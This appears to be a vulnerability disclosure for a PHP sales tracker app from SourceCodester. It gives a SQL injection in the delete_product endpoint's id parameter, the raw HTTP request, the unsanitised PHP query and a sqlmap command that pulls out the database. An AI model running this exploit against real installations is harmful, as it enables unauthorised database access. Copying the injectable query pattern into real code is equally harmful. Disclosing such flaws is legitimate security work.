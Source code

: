 Download sourcecode from https://www.sourcecodester.com/php/16061/sales-tracker-management-system-using-php-free-source-code.html

Deploy the system

The sql injection url: http://127.0.0.1/php-sts/classes/Master.php?f=delete_product Vulnerability trigger parameter: id(post parameter)

The http message is 

```
POST /php-sts/classes/Master.php?f=delete_product HTTP/1.1
Host: 172.31.171.96
Content-Length: 619
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://172.31.171.96
Referer: http://172.31.171.96/php-sts/admin/?page=products
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _identity-backend=1416da550bcea012a11350a0ee7d79cf245e88d2bb9d4d2aa1f1074044ab7943a%3A2%3A%7Bi%3A0%3Bs%3A17%3A%22_identity-backend%22%3Bi%3A1%3Bs%3A46%3A%22%5B1%2C%22z6lrwixmdNF4VqtkXw6z-3vMZdSdngm2%22%2C2592000%5D%22%3B%7D; PHPSESSID=qj7s632jgajmvubq5d9g49fnnn
Connection: close

id=1
```

sourcecode:

```php
	function delete_product(){
		extract($_POST);
		$del = $this->conn->query("UPDATE `product_list` set `delete_flag` = 1 where id = '{$id}'");
		if($del){
			$resp['status'] = 'success';
			$this->settings->set_flashdata('success'," Product successfully deleted.");
		}else{
			$resp['status'] = 'failed';
			$resp['error'] = $this->conn->error;
		}
		return json_encode($resp);

	}
```

![1](https://github.com/paiqian/php-sts-vultest/blob/main/static/image-20230310230717607.png)

sqlmap -r /mnt/d/web_temp/php-sts/php-sts2.txt -pid --batch --current-db

![2](https://github.com/paiqian/php-sts-vultest/blob/main/static/image-20230310230757824.png)

![3](https://github.com/paiqian/php-sts-vultest/blob/main/static/image-20230310230806574.png)
